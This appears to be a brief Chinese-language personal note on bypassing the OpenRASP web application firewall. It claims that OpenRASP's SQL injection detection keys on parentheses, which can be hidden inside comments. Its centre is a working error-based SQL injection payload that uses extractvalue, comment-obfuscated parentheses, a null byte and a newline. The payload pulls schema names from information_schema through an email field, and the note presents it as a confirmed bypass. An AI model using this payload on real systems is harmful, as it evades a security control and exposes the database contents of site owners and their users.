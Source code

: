 # 绕waf记录

## 绕过OpenRASP sql注入检测

OpenRASP 检测sql注入好像特别喜欢匹配括号，那么我们就在注释中弄个括号即可绕过

成功绕过的例子:

sql语句:`select * from xa_user_c where RegEmail='输入点'`

```php
Email=crawlergo%40gmail.cn'-extractvalue/*fffucker tou c/*hao f/*uck/*er /*ssss*/%0a%00/*(*/(1,concat/*(*/('~',(SELECT/*(*/schema_name/*(*/FROM/*(*/information_schema.schemata+limit+1,1)))-'
```

